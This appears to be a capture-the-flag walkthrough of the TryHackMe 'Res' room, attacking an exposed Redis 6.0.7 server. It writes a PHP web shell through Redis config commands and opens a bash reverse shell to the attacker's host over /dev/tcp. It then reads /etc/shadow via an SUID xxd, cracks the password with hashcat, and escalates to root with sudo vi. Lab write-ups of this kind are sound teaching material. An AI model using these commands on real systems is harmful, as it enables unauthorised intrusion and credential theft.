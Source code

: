 ```yaml
---

title: Walkthrough - Res
published: true
---
```


SGBD, Enumeration, RCE, Cracking. Hack into a vulnerable database server with an in-memory data-structure in this semi-guided challenge!

![0xskar](/assets/redis01.png)

[https://tryhackme.com/room/res](https://tryhackme.com/room/res)

* * *

## Scan the machine, how many ports are open?

- ``nmap -Pn -sS -p- 10.10.17.249 -vvv ``
- ``nmap -sC -sV -sT -O -p80,6379 10.10.17.249``

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
6379/tcp open  redis   Redis key-value store 6.0.7
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 5.4 (94%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Android 5.1 (92%), Linux 3.2 - 3.16 (92%), Linux 3.2 - 3.5 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
```

* * * 

## What's is the database management system installed on the server?

- Redis

* * * 

## What port is the database management system running on?

- 6379

* * * 

## What's is the version of management system installed on the server?

- 6.0.7

* * * 

## Compromise the machine and locate user.txt

- ``redis-cli -h 10.10.17.249`` - to connect to the redis server
- ``info server`` looking here in the server info we find a working directory for redis... ``executable:/home/vianka/redis-stable/src/redis-server``
-  because we can see the users home directory we should be able to import a genetateed rsa key into redis and login to it there.

1. Generate public key ``ssh-keygen -t rsa -f rsa``
2. Write the public key to a file ``(echo -e "\n\n"; cat ./rsa.pub; echo -e "\n\n") > foo.txt``
3. Import the file into redis ``cat foo.txt | redis-cli -h 10.10.17.249 -x set crackit``
4. Save the public key to the authorized_keys file on the redis server
5. whelp this doesnt work... The .ssh directory doesnt seem to be accesssible

So trying some other things our I end up finding the web directory.

```
10.10.17.249:6379> config set dir /var/www/html
OK
10.10.17.249:6379> config set dbfilename redis.php
OK
10.10.17.249:6379> set test "<?php phpinfo(); ?>"
OK
10.10.17.249:6379> save
OK
```

do we can vidit this page now on the webserver. lets alter it do we can get a php reverse shell

```
10.10.131.125:6379> config set dir /var/www/html
OK
10.10.131.125:6379> config set dbfilename shell.php
OK
10.10.131.125:6379> set test "<?php exec(\"/bin/bash -c 'bash -i > /dev/tcp/10.2.127.225/6666 0>&1'\"); ?>"
OK
10.10.131.125:6379> save
OK
```

and catch the reverse shell

```
┌──(0xskar㉿cocokali)-[~]
└─$ pwncat -l 10.2.127.225 6666
whoami
www-data
ls -las
total 24
 4 drwxrwxrwx 2 root   root    4096 Aug  9 13:49 .
 4 drwxr-xr-x 3 root   root    4096 Sep  2  2020 ..
12 -rw-r--r-- 1 root   root   11321 Sep  2  2020 index.html
 4 -rw-r--r-- 1 vianka vianka   179 Aug  9 13:49 shell.php
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html$ 
```

![0xskar](/assets/redis02.png)

* * * 

## What is the local user account password?

```
find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/fusermount
/bin/mount
/bin/su
/bin/ping6
/bin/umount
/usr/bin/chfn
/usr/bin/xxd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/lib/eject/dmcrypt-get-device
```

If ``xxd`` has the suid bit set we can read files with it.

- ``xxd /etc/shadow | xxd -r``
- ``unshadow`` this file and then hashcat
- ``hashcat -m 1800 creds.unshadow /usr/share/seclists/Passwords/rockyou.txt ``

```
Dictionary cache hit:
* Filename..: /usr/share/seclists/Passwords/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:beautiful1
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1800 (sha512crypt $6$, SHA512 (Unix))
```

* * * 

## Escalate privileges and obtain root.txt

- ``su vianka``

```
sudo -l
[sudo] password for vianka: beautiful1

Matching Defaults entries for vianka on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vianka may run the following commands on ubuntu:
    (ALL : ALL) ALL
```

Easy enough...

- ``sudo vi -c ':!/bin/sh' /dev/null``

* * * 

